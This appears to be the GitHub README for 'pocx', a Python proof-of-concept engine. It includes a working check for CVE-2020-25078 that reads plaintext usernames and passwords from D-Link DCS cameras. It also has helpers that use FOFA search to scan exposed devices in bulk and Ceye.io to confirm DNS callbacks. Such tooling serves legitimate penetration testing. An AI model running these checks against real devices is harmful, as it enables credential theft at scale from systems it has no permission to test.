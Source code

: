 # pocx
A Simple, Fast and Powerful poc engine tools was built by antx, which support synchronous mode and asynchronous mode.

## Description
pocx is a simple, fast and powerful poc engine tools, which support synchronous mode and asynchronous mode. pocx also 
support some useful features, which like fofa search and parse assets to verify. You also can use smart method to verify 
some special assets by using ceyeio, which it is cannot return or display the result. 

## Install

```bash
pip3 install pocx
```

## Usage

### POC Template

```python
# Title: xxxxxxx
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-xxxx-xxxxx

from pocx import BasicPoc, AioPoc


class POC(BasicPoc):
    def __init__(self):
        self.name = 'poc'
        super(POC, self).__init__()

    def poc(self, target):
        """
        
        your poc code here.
        
        """
        return


if __name__ == '__main__':
    target = 'http://127.0.0.1'
    cve = POC()
    cve.run(target)
```

### Synchronous Mode Example

```python
# Title: D-Link DCS系列监控 账号密码信息泄露 CVE-2020-25078
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-2020-25078

from pocx import BasicPoc
from loguru import logger


class DLinkPoc(BasicPoc):
    @logger.catch(level='ERROR')
    def __init__(self):
        self.name = 'D_Link-DCS-2530L'
        super(DLinkPoc, self).__init__()

    @logger.catch(level='ERROR')
    def poc(self, target: str):
        poc_url = '/config/getuser?index=0'
        try:
            resp = self.get(target + poc_url)
            if resp.status_code == 200 and 'name=' in resp.text and 'pass=' in resp.text and 'priv=' in resp.text:
                logger.success(resp.text)
            elif resp.status_code == 500:
                logger.error(f'[-] {target} {resp.status_code}')
        except Exception as e:
            logger.error(f'[-] {target} {e}')


if __name__ == '__main__':
    target = 'http://127.0.0.1'
    cve = DLinkPoc()
    cve.run(target)
```

### Asynchronous Mode Example

```python
# Title: D-Link DCS系列监控 账号密码信息泄露 CVE-2020-25078
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-2020-25078

from pocx import AioPoc
from loguru import logger


class DLinkPoc(AioPoc):
    @logger.catch(level='ERROR')
    def __init__(self):
        self.name = 'D_Link-DCS-2530L'
        super(DLinkPoc, self).__init__()

    @logger.catch(level='ERROR')
    async def poc(self, target: str):
        poc_url = '/config/getuser?index=0'
        try:
            resp = await self.aio_get(target + poc_url)
            if resp.status_code == 200 and 'name=' in resp.text and 'pass=' in resp.text and 'priv=' in resp.text:
                logger.success(resp.text)
            elif resp.status_code == 500:
                logger.error(f'[-] {target} {resp.status_code}')
        except Exception as e:
            logger.error(f'[-] {target} {e}')


if __name__ == '__main__':
    target = 'http://127.0.0.1'
    cve = DLinkPoc()
    cve.run(target)
```

### Useful Functions

#### FoFa

```python
# Title: xxxxxxx
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-xxxx-xxxxx

from pocx import BasicPoc, AioPoc
from pocx.funcs import Fofa


class POC(BasicPoc):
    def __init__(self):
        self.name = 'poc'
        super(POC, self).__init__()

    def poc(self, target):
        """
        
        your poc code here.
        
        """
        return


if __name__ == '__main__':
    grammar = 'app="xxxxxx"'
    cve = POC()
    fofa = Fofa()
    fofa.set_config(api_key='xxxxxx', api_email='xxxxxx')
    print(f'[+] the asset account of grammar: {grammar} are: {fofa.asset_counts(grammar)}')
    pages = fofa.asset_pages(grammar)
    for page in range(1, pages + 1):
        print(f'[*] page {page}')
        assets = fofa.assets(grammar, page)
        cve.run(assets)
```

#### Ceye

```python
# Title: xxxxxxx
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-xxxx-xxxxx

from pocx import BasicPoc, AioPoc
from pocx.funcs import Ceye


class POC(BasicPoc):
    def __init__(self):
        self.name = 'poc'
        super(POC, self).__init__()
        self.ceyeio = Ceye()
        
    def poc(self, target):
        pid = self.ceyeio.generate_payload_id()
        self.ceyeio.set_config(api_token='xxxxxx', identifier='xxxxxx.ceye.io')
    
        """
        
        your poc code here.
        
        """
        
        self.ceyeio.verify(pid, 'dns')
        return


if __name__ == '__main__':
    target = 'http://127.0.0.1:8888'
    cve = POC()
    cve.run(target)
```
